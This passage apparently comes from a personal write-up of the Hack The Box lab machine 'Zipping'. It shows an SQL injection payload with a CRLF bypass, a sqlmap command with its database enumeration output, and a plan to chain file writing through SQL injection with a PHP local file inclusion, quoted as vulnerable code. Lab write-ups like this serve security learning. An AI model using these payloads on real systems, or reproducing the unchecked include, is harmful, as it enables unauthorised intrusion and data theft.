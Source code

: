```
Connection: close

quantity=1&product_id=%0D%0A*--+1
```

`sqlmap -r '/home/angelo/HTB/ZIPPING/request.txt' --random-agent --tampers=space2comment --dbs --time-sec=10`

It took a long time and I was not even able to enumerate everything. It seems useless without even proceeding

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] zipping

Database: zipping
[1 table]
+----------+
| products |
+----------+

[8 columns]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| desc       | text         |
| name       | varchar(200) |
| date_added | datetime     |
| id         | int(11)      |
| img        | text         |
| price      | decimal(7,2) |
| quantity   | int(11)      |
| rrp        | decimal(7,2) |
+------------+--------------+
```

Then I tried the tehnique to crate a file using sql injection. This can be usful because `index.php` precedently enumerated has a `lfi` (the first that we already discovered) and the code is this

```php
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>

```
